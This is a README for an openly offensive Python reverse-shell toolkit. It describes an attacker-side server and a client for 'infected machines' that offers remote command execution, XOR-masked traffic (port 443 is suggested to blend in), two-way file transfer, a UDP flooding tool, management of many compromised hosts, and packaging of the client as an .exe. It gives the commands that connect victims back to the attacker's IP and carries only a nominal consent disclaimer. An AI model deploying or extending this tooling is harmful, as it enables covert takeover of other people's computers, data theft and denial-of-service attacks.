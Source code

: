 # reverse_shell
> A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

NOTE : As of v0.0.3 a folder "min" has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.2 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

*[1]The idea for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check primalsecurity.net's perfect blogpost about producing an .exe

## Deployment:

* `rev_shell_server.py` or `rev_shell_server_min.py` is situated at the attacker's machine and running to accept connections
* `rev_shell_client.py` or `rev_shell_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
  python rev_shell_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python rev_shell_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Todo

* Fix logic bug where if a dirrect command to Host OS has no output or its execution is perpetual the Server deadlocks

## License

MIT
